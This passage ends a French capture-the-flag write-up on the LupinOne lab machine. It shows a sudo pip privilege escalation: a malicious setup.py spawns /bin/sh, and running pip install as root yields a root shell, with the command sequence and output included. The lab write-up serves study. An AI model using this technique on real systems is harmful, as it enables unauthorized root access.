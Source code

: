 L'entrée sudo ce n'est pas très original mais cette fois la commande à exploiter c'est *pip* (le gestionnaire de paquets de Python), ça change :)  

On trouve une astuce permettant d'avoir un shell sur [gtfobins](https://gtfobins.github.io/gtfobins/pip/#shell) :  

```bash
arsene@LupinOne:~$ TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
arsene@LupinOne:~$ sudo /usr/bin/pip install $TF
Processing /tmp/tmp.Grss4a5pEc
# id
uid=0(root) gid=0(root) groups=0(root)
```

Et un CTF de plus dans la liste ! De mon point de vue, trop de guessing sur la partie énumération qui n'apportait de plus rien d'intéressant. Le base 58 et l'exploitation de *pip* étaient plus amusantes mais ne requièrent pas de technicité particulière (on aurait pu toutefois chercher nous même à exploiter *pip* via l'écriture et la publication d'un paquet custom).  


*Published November 22 2021 at 22 24*